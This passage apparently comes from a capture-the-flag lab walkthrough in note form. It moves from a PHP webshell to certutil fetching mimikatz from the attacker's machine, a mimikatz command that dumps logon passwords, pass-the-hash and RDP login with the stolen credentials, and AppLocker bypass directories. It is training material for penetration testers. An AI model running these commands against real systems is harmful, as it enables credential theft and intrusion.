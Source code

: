* As we were unable to make a simple webshell work, we will have to use another technique for AV evasion.

* Trying another version of a simple PHP webshell works in this case - we are able to get RCE on S-SRV01.

* ```whoami``` command shows that we are 'system' user - we can get the flag from Admin's desktop.

* We can now use ```mimikatz``` to dump creds on S-SRV01.

* ```certutil``` can be used to transfer the binary to S-SRV01 (remember to host the Python server):

  ```certutil.exe -urlcache -f http://10.50.109.20/mimikatz64.exe mimikatz.exe```

* As ```mimikatz``` has its own CLI, we need to send all commands required in a single command.

* The crafted command will dump account creds authenticated to endpoint:

  ```.\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" exit```

* This dumps the required creds; we get the password for user 'watamet'

* We can also use a pass-the-hash attack with tools such as ```crackmapexec``` and ```evil-winrm```

* Using ```crackmapexec```, we are able to find that the creds for user 'watamet' can be used for DC-SRV01, S-SRV01 and PC-FILESRV01.

* We can try getting a shell on PC-FILESRV01 using ```evil-winrm``` but it does not work.

* As we have creds anyways, we can login as 'watamet' using ```xfreerdp``` - user flag can be found on Desktop.

* While attempting to perform situational awareness, we are getting errors due to whitelist application controls set on the server; AppLocker is being used here.

* The policy config for AppLocker is located in ```secpol.msc``` (local/group security policy editor).

* The key rule types under 'Application Control Policies' are:

  * Executable Rules
  * Windows Installer Rules
  * Script Rules
  * Packaged app Rules

* Techniques used to bypass AppLocker:

  * Abuse misconfigs within rules
  * Signed/Verified packages & binaries (LOLBAS)
  * PowerShell downgrade
  * Alternate Data Streams

* We can check for directories that can be used to execute programs using tools like [AppLocker directory checker script](https://github.com/sparcflow/GibsonBird/blob/master/chapter4/applocker-bypas-checker.ps1)

* In the RDP session, open PowerShell and fetch the script from attacker machine; running it shows us the directories we can execute programs in:

  * ```C:\Windows\Tasks```
  * ```C:\Windows\tracing```
  * ```C:\Windows\System32\spool\drivers\color```
  * ```C:\Windows\tracing\ProcessMonitor```

```markdown
  ```